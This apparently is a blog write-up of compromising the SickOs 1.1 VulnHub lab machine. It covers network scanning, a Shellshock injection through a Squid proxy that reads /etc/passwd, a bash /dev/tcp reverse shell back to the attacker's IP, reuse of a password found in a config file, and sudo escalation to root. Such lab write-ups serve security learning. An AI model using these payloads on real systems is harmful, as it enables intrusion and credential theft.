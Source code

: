 ```yaml
---
layout: post
title: "sickos:1.1"
date: 2016-05-18 12:50:37 -0500
comments: true
categories: [vulhub, squid, shellshock]
---
```



From [Vulhub](https://www.vulnhub.com/entry/csharp-vulnjson,134/)

###Tools:

* netdiscover
* Nmap
* Metasploit
* FoxyProxy

<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.79.0/24`

{% img  /images/blog/vulhub/sickos/Selection_001.png   [title manually exploit [alt text]] %}

192.168.79.178 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.178 -p-`

{% img  /images/blog/vulhub/sickos/Selection_002.png   [title manually exploit [alt text]] %}

Looks like port 22 and port 3218 are openning. Port 3218 is running Squid. open msfconsole, search squid. I found that:

{% img  /images/blog/vulhub/sickos/Selection_003.png   [title manually exploit [alt text]] %}

Then use this module to scan the squid service:

{% img  /images/blog/vulhub/sickos/Selection_004.png   [title manually exploit [alt text]] %}

Looks like port 80 is opened:

{% img  /images/blog/vulhub/sickos/Selection_005.png   [title manually exploit [alt text]] %}

Use FoxyProxy add-on to configure proxy:

{% img  /images/blog/vulhub/sickos/Selection_006.png   [title manually exploit [alt text]] %}

now visit http://192.168.79.178

{% img  /images/blog/vulhub/sickos/Selection_007.png   [title manually exploit [alt text]] %}

now let's use nikto to scan the server:

```
nikto -h localhost -useproxy http://192.168.79.178:3128
```

{% img  /images/blog/vulhub/sickos/Selection_008.png   [title manually exploit [alt text]] %}

looks like there is a shellshock vuln


Let's test it:


```
wget -q -O- -U "() { test;};echo \"content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" -e use_proxy=on -e http_proxy=192.168.79.178:3128 "http://192.168.79.178/cgi-bin/status"

```

{% img  /images/blog/vulhub/sickos/Selection_009.png   [title manually exploit [alt text]] %}

It works and looks  there is an account sickos.

Now lets setup reverse shell. 

netcat-style shell access without netcat:

`/bin/bash -i > /dev/tcp/[yourip]/[port] 0<&1`


in one terminal:

`nc -nlvp 4444`

in another terminal:


```
wget -q -O- -U "() { test;};echo \"content-type: text/plain\"; echo; echo; /bin/bash -i > /dev/tcp/192.168.79.173/4444 0<&1" -e use_proxy=on -e http_proxy=192.168.79.178:3128 "http://192.168.79.178/cgi-bin/status"

```

get the shell:


{% img  /images/blog/vulhub/sickos/Selection_010.png   [title manually exploit [alt text]] %}


After Enumeration, got a interesting file: `/var/www/wolfcms/config.php`

{% img  /images/blog/vulhub/sickos/Selection_011.png   [title manually exploit [alt text]] %}


Looks like the password is `john@123`

SSH to the target server as sickos and use this password:


{% img  /images/blog/vulhub/sickos/Selection_012.png   [title manually exploit [alt text]] %}



Check sickos's privilege:

`sudo -l`

{% img  /images/blog/vulhub/sickos/Selection_013.png   [title manually exploit [alt text]] %}

Looks like it can run as root


{% img  /images/blog/vulhub/sickos/Selection_014.png   [title manually exploit [alt text]] %}


YES
